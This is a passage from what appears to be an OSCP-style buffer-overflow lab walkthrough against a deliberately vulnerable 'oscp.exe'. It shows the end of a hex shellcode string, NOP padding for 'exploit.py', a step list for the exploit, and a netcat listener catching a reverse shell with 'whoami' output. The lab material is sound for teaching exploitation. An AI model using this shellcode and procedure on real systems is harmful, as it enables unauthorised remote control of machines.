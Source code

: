 "\x17\x7a\xe7\x9e\xf1\xea\x7e\xed\xc1\x6c\x7f\x38\xb4\x90"

"\xce\x95\x81\xaf\xff\x71\x06\xc8\x1d\xe2\xe9\x03\xa6\x02"

"\x08\x81\xd3\xaa\x95\x40\x5e\xb7\x25\xbf\x9d\xce\xa5\x35"

"\x5e\x35\xb5\x3c\x5b\x71\x71\xad\x11\xea\x14\xd1\x86\x0b"

"\x3d")

#### **Prepend NOPs** <a href="#ddejlkv95jeq" id="ddejlkv95jeq"></a>

* Need memory space for payload to unpack.
* Set "padding" variable of "exploit.py" to string of 16 or more "No Operation" (\x90) bytes.

padding = "\x90" \* 16

#### **Exploit!** <a href="#id-3758w0yqmixv" id="id-3758w0yqmixv"></a>

* Exploit buffer overflow to get reverse shell.
  * Correct prefix.
  * Correct offset.
  * Correct return address.
  * Correct padding.
  * Payload set.
* Start netcat listener on attack host.
* Restart "oscp.exe" in Immunity.
* Run modified "exploit.py" script.
* Netcat listener catches reverse shell.

Connection from 10.10.50.78 49294 received!

Microsoft Windows \[Version 6.1.7601]

Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami

whoami

oscp-bof-prep\admin
